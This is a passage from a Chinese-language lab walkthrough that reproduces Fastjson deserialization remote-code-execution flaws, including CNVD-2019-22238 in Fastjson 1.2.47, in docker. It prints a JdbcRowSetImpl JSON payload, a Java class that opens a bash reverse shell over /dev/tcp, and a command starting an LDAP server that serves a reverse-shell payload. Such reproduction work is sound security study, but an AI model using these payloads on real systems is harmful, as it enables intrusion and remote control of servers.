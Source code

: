     
    
    {"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://192.168.1.8:9999/evilclass","autoCommit":true}}

发包即可

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220215122830.png)

进入docker里查看发现已经创建了test文件

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220215122831.png)

若需要反弹shell只需要把java文件中的`String[] commands`改为bash反弹命令即可，这里不再赘述

    
    
    import java.lang.Runtime;import java.lang.Process;publicclass evilclass{static{try{Runtime rt = Runtime.getRuntime();String[] commands = {"/bin/bash", "-c", "bash -i >& /dev/tcp/192.168.1.8/9001 0>&1"};Process pc = rt.exec(commands);pc.waitFor();} catch(Exception e) {// do nothing}}}

# CNVD‐2019‐22238

CNVD-2019-22238即Fastjson1.2.47 反序列化漏洞

## 漏洞原理

Fastjson提供了autotype功能，允许用户在反序列化数据中通过“@type”指定反序列化的类型，其次，Fastjson自定义的反序列化机制时会调用指定类中的setter方法及部分getter方法，那么当组件开启了autotype功能并且反序列化不可信数据时，攻击者可以构造数据，使目标应用的代码执行流程进入特定类的特定setter或者getter方法中，若指定类的指定方法中有可被恶意利用的逻辑（也就是通常所指的“Gadget”），则会造成一些严重的安全问题。并且在Fastjson
1.2.47及以下版本中，利用其缓存机制可实现对未开启autotype功能的绕过。

影响版本为 `fastjson < 1.2.47`

## 漏洞复现

首先进入1.2.47的docker环境

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220215122832.png)

这里的jdk版本还是8u102，这个版本没有com.sun.jndi.rmi.object.trustURLCodebase的限制，可以继续利用RMI或者LDAP进行命令执行

上面用了RMI进行命令执行，这里使用LDAP进行漏洞复现

LDAP使用的工具为fastjson_tool，首先clone到本地

    
    
    git clone https://github.com/wyzxxz/fastjson_rce_tool.git

首先启动LDAP服务，8888为LDAP服务的端口，后面跟的是bash反弹shell的命令

    
    
    java -cp fastjson_tool.jar fastjson.HLDAPServer192.168.1.88888"bash=/bin/bash -i  >& /dev/tcp/192.168.1.10/9001 0>&1"

这里执行命令之后给出了两个payload，我们使用下面这个payload复制一下
